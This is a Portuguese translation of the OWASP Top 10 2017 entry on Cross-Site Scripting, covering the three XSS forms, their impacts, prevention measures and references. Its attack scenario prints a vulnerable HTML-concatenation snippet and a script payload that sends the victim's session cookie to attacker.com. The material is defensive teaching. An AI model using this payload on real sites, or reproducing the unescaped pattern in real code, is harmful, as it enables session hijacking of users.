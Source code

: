 # A7:2017 Cross-Site Scripting (XSS)

| Agentes de Ameaça/Vetores de Ataque | Vulnerabilidades de Segurança | Impactos |
| -- | -- | -- |
| Nível de Acesso \| Explorabilidade 3 | Prevalência 3 \| Detectabilidade 3 | Técnico 2 \| Negócio |
| Ferramentas automatizadas podem detectar e explorar as três formas de XSS, e existem frameworks de exploits disponíveis gratuitamente. | XSS é o segundo problema mais prevalente no OWASP Top 10, e é encontrado em cerca de dois terços de todas as aplicações. As ferramentas automatizadas podem encontrar alguns problemas XSS automaticamente, particularmente em tecnologias maduras, como PHP, J2EE / JSP e ASP.NET. | O impacto do XSS é moderado para refletido e DOM XSS, e grave para XSS armazenado, com execução remota de código no navegador da vítima, como roubar credenciais, sessões ou entregar malwares à vítima. |

## A Aplicação está Vulnerável?

Existem três formas de XSS, geralmente visando os navegadores dos usuários:

* **XSS Refletido**: Sua aplicação ou API inclui entradas de usuário não validadas e não modificadas como parte da saída HTML. Um ataque bem sucedido pode permitir que o atacante execute HTML e JavaScript arbitrários no navegador da vítima. Normalmente, o usuário precisará interagir com algum link malicioso que aponte para uma página controlada pelo atacante, como sites maliciosos de *watering hole*, propagandas ou similares.
* **XSS Armazenado**: Sua aplicação ou API armazena entradas de usuário não sanitizadas que é vista mais tarde por outro usuário ou administrador. O XSS armazenado é frequentemente considerado de risco alto ou crítico.
* **DOM XSS**: Frameworks de JavaScript, aplicativos de uma única página (SPAs) e APIs que incluem dinamicamente dados controláveis pelo atacante para uma página são vulneráveis ao DOM XSS. Idealmente, sua aplicação não enviaria dados controláveis pelo atacante para APIs de JavaScript inseguras.

Ataques XSS típicos incluem o roubo de sessão, a aquisição de contas, *bypass* de MFA (MultiFactor Authentication), a substituição de nós DOM ou o desfiguramento (como os painéis de login de trojan), ataques contra o navegador do usuário, como downloads de software mal-intencionado, *key logging* e outros ataques do lado do cliente.

## Como Prevenir

Prevenir XSS requer a separação de dados não confiáveis do conteúdo ativo do navegador. Isso pode ser alcançado por:

* Use frameworks que automaticamente escapam o XSS por design, como os mais recentes Ruby on Rails, React JS. Aprenda as limitações de proteção XSS de cada framework e cuide adequadamente os casos de uso que não são cobertos.
* Usar frameworks que automaticamente sanitizam o XSS por design, como Ruby on Rails e React JS mais recentes. Aprenda as limitações de proteção XSS de cada framework e cuide adequadamente os casos de uso que não são cobertos.
* Sanitizar por *escape* dados de solicitação HTTP não confiáveis com base no contexto na saída HTML (corpo, atributo, JavaScript, CSS ou URL) irá resolver vulnerabilidades XSS refletidas e armazenadas. A [Folha de Dicas OWASP 'XSS Prevention'](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) contém detalhes sobre técnicas de *escape* de dados necessárias.
* Aplicar *encoding* sensível ao contexto ao modificar o documento do navegador no lado do cliente atua contra DOM XSS. Quando isso não puder ser evitado, técnicas de *escaping* sensíveis ao contexto semelhantes podem ser aplicadas às APIs do navegador, conforme descrito na Folha de Dicas OWASP 'DOM Based XSS Prevention'.
* Habilitar um [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) é um controle de mitigação de defesa profunda contra o XSS. É eficaz se não existem outras vulnerabilidades que permitiriam colocar códigos maliciosos através de arquivos locais (por exemplo, sobrescritas de *path traversal* ou bibliotecas vulneráveis em fontes permitidas).

## Exemplo de Cenários de Ataque

**Cenário 1**: A aplicação usa dados não confiáveis na construção do seguinte fragmento HTML sem validação ou *escaping*:

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`

O atacante modifica o parâmetro 'CC' no navegador para:

`'><script>document.location='https://attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

Este ataque faz com que a ID da sessão da vítima seja enviada para o site do invasor, permitindo que o invasor seqüestra a sessão atual do usuário.

**Nota**: Atacantes podem usar XSS para derrubar qualquer defesa CSRF automatizada que a aplicação possa empregar.

## Referências

### OWASP

* [OWASP Proactive Controls: Encode Data](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
* [OWASP Proactive Controls: Validate Data](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
* [OWASP Application Security Verification Standard: V5](https://owasp.org/www-project-application-security-verification-standard/)
* [OWASP Testing Guide: Testing for Reflected XSS](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting)
* [OWASP Testing Guide: Testing for Stored XSS](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting)
* [OWASP Testing Guide: Testing for DOM XSS](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/01-Testing_for_DOM-based_Cross_Site_Scripting)
* [OWASP Cheat Sheet: XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
* [OWASP Cheat Sheet: XSS Filter Evasion](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
* [OWASP Java Encoder Project](https://owasp.org/www-project-java-encoder/)

### Externas

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_client-side-template-injection)
